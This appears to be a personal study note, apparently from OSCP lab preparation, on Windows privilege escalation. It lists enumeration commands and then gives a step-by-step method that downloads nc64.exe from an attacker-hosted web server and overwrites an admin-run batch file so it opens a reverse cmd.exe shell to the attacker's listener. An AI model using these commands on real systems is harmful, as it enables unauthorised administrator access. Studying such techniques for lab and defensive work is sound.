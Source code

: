 # Windows Privesc
﷽
* Broad guide/methodology on Windows privesc.
## methodology
## commands
* to check who can run a file, use
  * `icacls {file}`
* to check if we are part of `{group}`, use
  * `net localgroup {group}` eg. `net localgroup Users`
  * this will list users for said `{group}`
* check scheduled tasks:
  * `schtasks`
* or, enter `powershell` with said command and use `ps` to see processes.
### writing over files
* some files, eg. batch files always run as admin, a command we can exploit to gain a `nc` shell. This shell will therefore also be ***ran as admin :)***

* firstly, find the `nc64.exe` file (mine is in ~/hacking/oscp/binaries/)
* then, start a python3 webserver hosting the file in the dir the file is in:
  * `python3 -m http.server 8000`
* now, on the victim receive the file:
  * `wget http://{your-ip}:8000/nc64.exe -outfile nc64.exe` (make sure you're in `powershell` by entering in `powershell`).
* on the host computer, start a `nc` listener:
  * `nc -lvnp 7777`
* on the victim computer, leave PS:
  * `exit`
* now, on the victim overwrite the batch file to connect to that `nc` listener:
  * `echo C:\{nc64.exe-location} -e cmd.exe {your-ip} {your-nc-port} > {batch-file}`, so for example,:
  * `echo C:\Log-Management\nc64.exe -e cmd.exe 10.10.16.11 7777 > job.bat`, where
    * `nc64.exe` is the nc location
    * `10.10.16.11` is my local ip on the host computer
    * `7777` is my nc listener port.

